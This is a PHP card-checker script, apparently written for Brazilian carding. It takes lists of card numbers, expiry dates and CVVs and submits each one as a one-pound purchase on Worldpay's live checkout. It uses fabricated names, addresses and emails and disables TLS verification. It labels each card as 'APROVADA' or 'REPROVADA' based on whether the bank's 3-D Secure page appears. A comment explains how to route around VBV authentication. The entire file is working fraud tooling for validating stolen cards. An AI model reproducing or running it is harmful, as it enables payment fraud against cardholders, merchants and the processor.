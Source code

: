 <?php

error_reporting(0);


if(file_exists(getcwd().'/bb.txt')) {
        unlink(getcwd().'/bb.txt'); 
    }

	
function value($string,$start,$end){
	$str = explode($start,$string);
	$str = explode($end,$str[1]);
	return $str[0];
}



if($_GET['testar']=="cc"){
	$ccs = $_GET['ccs'];
	$separador	= $_GET['separador'];
	$id		= $_GET['id'];
	$explode = explode($separador, $ccs);


if($explode[0][0] == "4"){
		$tipo = "op-DPChoose-VISA^SSL";
	}
	
	elseif($explode[0][0] == "5"){
		$tipo = "op-DPChoose-ECMC^SSL";
	}


	elseif($explode[0][0] == "3"){
	$tipo = "op-DPChoose-AMEX^SSL";
	}

$numero = $explode[0];
$mes = $explode[1];
$ano = $explode[2];
$cvv = $explode[3];



$random = substr(str_shuffle(str_repeat("0123456789abcdefghijklmnopqrstuvwxyz", 8)), 0, 8);
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, "https://secure.worldpay.com/wcc/purchase?instId=279852&testMode=0&cartId=1&currency=GBP&amount=1.00");
curl_setopt($ch, CURLOPT_HEADER, 1);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Linux; Android 5.1.1; SAMSUNG SM-G920F Build/LMY47X) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/3.2 Chrome/38.0.2125.102 Mobile Safari/537.36');
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_ENCODING, "gzip");
curl_setopt($ch, CURLOPT_COOKIESESSION, false);
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POST, 0);       
curl_setopt($ch, CURLOPT_REFERER, '');
//curl_setopt($ch, CURLOPT_POSTFIELDS, '');
$b = curl_exec($ch);
$PaymentID = value($b, 'NAME=PaymentID VALUE="','"');
		
	
curl_setopt($ch, CURLOPT_URL, "https://secure.worldpay.com/wcc/purchase");
curl_setopt($ch, CURLOPT_HEADER, 1);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36');
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_ENCODING, "gzip");
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Content-Type: application/x-www-form-urlencoded',
'Connection: Keep-Alive'
));
curl_setopt($ch, CURLOPT_COOKIESESSION, false);
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POST, 0);       
curl_setopt($ch, CURLOPT_REFERER, '');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'PaymentID='.$PaymentID.'&Lang=pt&authCurrency=GBP&'.$tipo.'.x=55&'.$tipo.'.y=17'); //JCB = BURLA O VBV = DE BIN Q VAI PRA TELA DO BANCO AUTHENTICAR
$b12 = curl_exec($ch);


$cardExp_Time = value($b12, 'name="cardExp.time" value="','"');
		

//////////////////////////////////////////////////////////////////////////


curl_setopt($ch, CURLOPT_URL, "https://secure.worldpay.com/wcc/card");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36');
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_ENCODING, "gzip");
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
'Content-Type: application/x-www-form-urlencoded',
'Connection: Keep-Alive'
));
curl_setopt($ch, CURLOPT_COOKIESESSION, true);
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/bb.txt');
curl_setopt($ch, CURLOPT_VERBOSE, 1);
curl_setopt($ch, CURLOPT_POST, 0);       
curl_setopt($ch, CURLOPT_REFERER, '');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'PaymentID='.$PaymentID.'&Lang=pt&cardNoInput='.$numero.'&cardNoJS=&cardNoHidden=*oculto*&cardCVV=&cardExp.day=32&cardExp.time='.$cardExp_Time.'&cardExp.month='.$mes.'&cardExp.year='.$ano.'&name='.$random.'+asdas&address1=asdasd+'.$random.'&address2=&address3=&town=asdasd+'.$random.'&region=&postcode=&country=BR&tel=&fax=&email='.$random.'%40hotmail.com&op-PMMakePayment.x=14&op-PMMakePayment.y=7');
   
  $s = curl_exec($ch);

$valoress = array('R$ 1,00','R$ 3,00','R$ 2,00','R$ 7,00','R$ 10,00','R$ 6,00','R$ 4,00','R$ 5,00');

$debitouu = $valoress[mt_rand(1,9)];

$bin = file_get_contents("http://localhost/full/bin.php?bin=$numero");

if (strpos($s, "https://www66.bb.com.br/SecureCodeAuth") !== false) {
echo "<font color='green' style='font-size: 15px'>APROVADA | $numero | $mes | $ano | $cvv | Informações: $bin</font><br>";

}elseif (strpos($s, "auth.bb") !== false) {
echo "<font color='green' style='font-size: 15px'>APROVADA | $numero | $mes | $ano | $cvv | Informações: $bin</font><br>";

}else{
echo "<font color='red' style='font-size: 15px'>REPROVADA | $numero | $mes | $ano | $cvv | Informações: $bin <br>";
}
   
if(file_exists(getcwd().'/bb.txt')) {
        unlink(getcwd().'/bb.txt'); 
    }

}
 
	
	?>
